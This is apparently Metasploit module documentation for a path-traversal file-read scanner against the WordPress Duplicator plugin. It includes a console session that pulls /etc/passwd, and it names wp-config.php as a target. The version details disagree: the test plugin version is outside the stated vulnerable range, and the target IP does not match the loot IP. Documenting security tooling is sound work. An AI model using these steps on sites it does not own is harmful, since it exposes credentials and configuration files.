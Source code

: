 ## Description
The issue is being actively exploited, and allows attackers to download arbitrary files, such as the wp-config.php file.
According to the vendor, the vulnerability was only in two versions v1.3.24 and v1.3.26, the vulnerability wasn't present in versions 1.3.22 and before.

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use auxiliary/scanner/http/wp_duplicator_file_read`
3. Set the `RHOSTS`
4. Set the `RPORT`
5. Set the `DEPTH`
6. Set the `FILEPATH`
6. Run the exploit: `run`
 

## Scenarios

```
msf5 > use auxiliary/scanner/http/wp_duplicator_file_read
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set rport 8080
rport => 8080
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set FILEPATH /etc/passwd
FILEPATH => /etc/passwd
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set DEPTH 5
DEPTH => 5

msf5 auxiliary(scanner/http/wp_duplicator_file_read) > run

[*] Downloading file...

[....Content File....]

[+] File saved in: /root/.msf4/loot/20201211005722_default_13.250.118.98_duplicator.trave_383073.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Test environment

Ubuntu 20.04 running WordPress 5.6, Duplicator 1.2.6
